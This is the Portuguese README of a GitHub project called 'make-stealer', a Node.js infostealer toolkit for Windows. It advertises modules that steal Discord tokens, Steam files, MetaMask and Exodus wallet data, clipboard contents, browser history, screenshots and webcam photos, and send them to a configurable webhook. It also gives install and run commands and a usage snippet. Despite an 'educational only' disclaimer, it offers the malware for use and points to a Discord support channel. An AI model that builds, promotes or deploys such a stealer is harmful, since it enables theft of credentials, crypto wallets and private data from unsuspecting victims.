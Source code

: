 # Stealers Modules

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Node.js](https://img.shields.io/badge/Node.js-16+-green.svg)](https://nodejs.org/)
[![Platform](https://img.shields.io/badge/Platform-Windows-blue.svg)](https://www.microsoft.com/windows)

> **⚠️ DISCLAIMER IMPORTANTE**  
> Este repositório é **APENAS** para fins educacionais e de pesquisa em segurança.  
> O uso deste código para atividades maliciosas é **PROIBIDO** e de responsabilidade exclusiva do usuário.

---

## 📋 Sobre

Diversos módulos para implementação em Stealers. Desenvolvido para fins educacionais em segurança da informação e pentesting.

---

## 🚀 Features

- **Discord**: Coleta tokens e informações de autenticação
- **Steam**: Backup dos arquivos principais da Steam
- **MetaMask & Exodus**: Cópia de dados de carteiras cripto
- **Screenshot**: Captura de tela com envio para webhook
- **Webcam**: Captura de foto da webcam
- **Clipboard**: Captura todos os novos textos copiados pelo usuario e os antigos (caso tenha o win + v ativo)
- **Browser History**: Coleta histórico dos navegadores

---

## 📁 Estrutura

```
make-stealer/
├── index.js             # Arquivo principal
├── package.json         # Dependências
├── readme.MD            # Documentação
└── modulos/             # Módulos do sistema
    ├── clipboard.js     # Coleta clipboard
    ├── browser.js       # Coleta histórico dos navegadores
    ├── discord.js       # Coleta tokens Discord
    ├── steam.js         # Backup Steam
    ├── metamask.js      # Backup MetaMask
    ├── exodus.js        # Backup Exodus
    ├── screenshot.js    # Captura de tela
    └── webcam.js        # Captura webcam
```

---

## ⚙️ Requisitos

- **Sistema**: Windows 10/11
- **Node.js**: Versão 16 ou superior
- **NPM**: Gerenciador de pacotes

---

## 🛠️ Instalação

1. **Clone o repositório**:
   ```bash
   git clone https://github.com/npmstealer/make-stealer.git
   cd make-stealer
   ```

2. **Instale as dependências**:
   ```bash
   npm install
   ```

3. **Configure a webhook**:
   - edite o arquivo `index.js`
   - Substitua o 'webhook here' pela sua webhook

---

## 📦 Dependências

- `axios`: Requisições HTTP
- `screenshot-desktop`: Captura de tela
- `form-data`: Upload de arquivos

---

## 🚀 Como Usar

### Uso Básico
```bash
npm start
# ou
node index.js
```

### Uso dos módulos
```javascript
const { discordtokens } = require('./modulos/discord')
const { screenshot } = require('./modulos/screenshot')

discordtokens()

screenshot('print.png', 'webhook here')
```

---

## ⚖️ Responsabilidade Legal

- Este software é fornecido "como está"
- O uso é de responsabilidade exclusiva do usuário
- Respeite sempre as leis locais de privacidade e segurança
- Use apenas em ambientes autorizados e para fins educacionais

---

## 👤 Créditos

- **Desenvolvedor**: npmstealer
- **Discord**: [discord.gg/npm](https://discord.gg/npm)
- **Versão**: 1.0.0

---

## 📞 Suporte

- **Discord**: [discord.gg/npm](https://discord.gg/npm)
- **Issues**: Use o GitHub Issues para bugs

---

> **⚠️ Lembre-se**: Use este software de forma responsável e ética. A segurança da informação deve sempre respeitar a privacidade e os direitos dos usuários.


